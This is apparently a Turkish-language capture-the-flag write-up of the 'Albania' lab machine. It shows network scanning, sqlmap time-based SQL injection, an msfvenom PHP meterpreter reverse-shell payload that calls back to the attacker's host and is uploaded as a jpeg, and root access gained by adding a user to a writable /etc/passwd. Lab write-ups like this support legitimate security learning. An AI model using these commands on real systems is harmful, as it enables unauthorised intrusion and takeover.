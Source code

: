 ```yaml
---
layout: post
title: Albania Writeup
categories: tr
---
```



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Albania sunucusunun ağ üzerindeki aldığı ip adresini bulmak için netdiscover ile tarama başlatıyoruz. 

	netdiscover -r 192.168.0.0/24 -i enp2s0

<img src="/img/albania/netdiscover.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sunucunun ip adresi tespit edildikten sonra nmap ile servislere yönelik detaylı bir tarama gerçekleştirilmiştir. Burada 22 numaralı port üzerinde SSH ve 8008 numaralı port üzerinde HTTP-Apache servisleri çalışmaktadır. 

	nmap -A -T4 192.168.0.30

<img src="/img/albania/nmap.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Aynı zamanda bu tarama sonucunda uygulamaya ait `robots.txt` dosyasının varlığı da tespit edilmiştir. İçerisinde disallow edilmiş karışık isimli birçok dizin bulunmaktadır. 


<img src="/img/albania/robots-txt.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu dizinlerin herbirine tek tek bakmak yerine otomatize çalışan basit bir script hazırladım. Bu script dizinleri alıp herbirine istek yapacak ve content-length dönüşü yapacak. Buradan farklı olan dizin tespit edilmeye çalışılacaktır. 


	1.	#!/bin/bash
	2.
	3.	GET http://192.168.0.30:8008/robots.txt | awk '{print $2}' > directories.txt
	4.	while read p; do
	5.	  echo "******************"
	6.	  echo $p . " : " 
	7.	  HEAD http://192.168.0.30:8008/$p | grep Content-Length
	8.	  echo "******************"
	9.	done <directories.txt



<img src="/img/albania/script.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Buradan aradığımız dizinin `/unisxcudkqjydw/` olduğunu tespit ediyoruz. Bu hedefe gittiğimizde bize farklı bir dizin ile ilgili ipucu veriliyor. 


<img src="/img/albania/secret-dir.png">



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu kadar işlemin ardından artık ulaşmamız gereken sayfayı buluyoruz: `http://192.168.0.30:8008/unisxcudkqjydw/vulnbank/client/login.php`.



<img src="/img/albania/vulnbank.png">



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Kullanıcı girişi gerektiren bu sayfa `time based sql injection` zafiyeti bulunduruyor. Bunu birçok denemenin ardından anlıyoruz. Sqlmap aracı ile aşağıdaki komutu çalıştırdığımızda işimize yarayacak olan payload'ı elde etmiş oluyoruz. 

	sqlmap -u "http://192.168.0.30:8008/unisxcudkqjydw/vulnbank/client/login.php" --data "username=ctrl*&password=ctrl" --random-agent --risk 3 --level 5 --technique T


<img src="/img/albania/sqlmap.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sayfaya giriş yaptıktan sonra resim yükleyebildiğimiz bir anasayfa açılıyor. Bu sayfa üzerinde PHP reverse shell kodumuzu jpeg uzantısıyla upload ediyoruz. Herhangi bir sorun olmadan kodumuz yükleniyor ve bize meterpreter oturumunu getiriyor. PHP kodunu `Msfvenom` ile aşağıdaki gibi hazırlıyoruz.

	msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.35 LPORT=6666 -f raw > php-reverse-shell.php


<img src="/img/albania/upload.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;İçeriye `www-data` kullanıcısı olarak giriş yaptık. Kernel seviyesinde bir exploitation gerçekleştiremeyeceğimizi anladıktan sonra sistem içerisinde araştırma yapmaya başlıyoruz. Öncelikle sistem üzerinde bulunan suid bitli dosyaları araştırıyoruz. 

<img src="/img/albania/meterpreter.png">

	python3 -c 'import pty; pty.spawn("/bin/sh")'
	find / -perm -u=s>/dev/null



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu işlem sonucunda `su` binary dosyasının normal yetkili sistem kullanıcıları tarafından çalıştırılabildiğini görüyoruz. Bildiğimiz üzere `sudo su`(switch user) komutu ile parolası bilinen bir kullanıcı yetkili giriş yapıp root yetkilerini elde edebilir. Bu yüzden parolası bilinen bir kullanıcı bulmayı hedefliyoruz. Sistemde araştırma yapmaya devam ederken passwd dosyasını da yazma yetkimizin olduğunu görüyoruz. Buraya taviso için bir parola tanımlayabiliriz.Bu işlem için `/etc/passwd` içerik yapısını hatırlayalım.

	username:password:1000:1000::/home/username:/bin/bash

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Buraya uygun olacak bir parola üretiyoruz. Devamında taviso için içerik yapısını oluşturalım. Sonrasında passwd dosyasını aşağıdaki gibi düzenliyoruz. 


	openssl passwd -1 
	taviso:$1$yWRbfixX$VMYDiLLYrVHBjJ/lX5uc8/:1000:1000:Taviso,,,:/home/taviso:/bin/bash



<img src="/img/albania/meterpreter-passwd.png">

	su taviso


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;komutu ile parola girdikten sonra taviso kullanıcısı olarak sisteme erişmiş bulunuyoruz. Su komutunu kullanabilme hakkımızdan dolayı artık hedef kullanıcının yani root kullanıcısının parolasını bilmesekte geçiş yapabiliyoruz. Bu sayede root haklarını elde etmiş olduk. 

<img src="/img/albania/root.png">











